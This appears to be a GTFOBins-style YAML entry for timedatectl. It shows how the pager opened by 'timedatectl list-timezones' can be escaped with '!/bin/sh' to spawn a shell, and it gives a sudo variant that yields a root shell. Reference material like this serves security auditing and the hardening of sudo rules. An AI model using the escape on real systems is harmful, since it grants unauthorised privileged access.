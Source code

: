 description: |
  This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.

  This might not work if run by unprivileged users depending on the system configuration.
functions:
  shell:
    - code: |
        timedatectl list-timezones
        !/bin/sh
  sudo:
    - code: |
        sudo timedatectl list-timezones
        !/bin/sh
---

